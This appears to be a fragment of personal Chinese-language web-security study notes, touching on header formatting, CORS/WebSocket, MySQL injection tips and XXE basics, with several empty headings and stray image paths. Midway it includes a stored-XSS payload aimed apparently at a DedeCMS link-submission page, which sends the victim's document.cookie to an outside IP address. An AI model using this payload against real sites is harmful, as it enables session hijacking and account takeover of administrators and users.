 head之间识别用的是换行符

head和haed之间必须又空行









### 跨域

#### WebSocket







S









#### CORS



dede plhttps://www.likecs.com/show-308512178.html

http://127.0.0.1/plus/flink_add.php

后台http://127.0.0.1/dede/index.php



<img src='x' onerror=x=new Image();x.src="http://47.92.37.9:8080/1.php?"+document.cookie>



## Mysql





![image-20230410092405943](../AppData/Roaming/Typora/typora-user-images/image-20230410092405943.png)

0x7e表示~

group_concat与limit不能合用

## XXE

> **一、XML外部实体注入**
>
> 二、XML介绍
>
> 。标签对大小写敏感
>
> 。标签必须闭合
>
> 。必须有根元素
>
> 

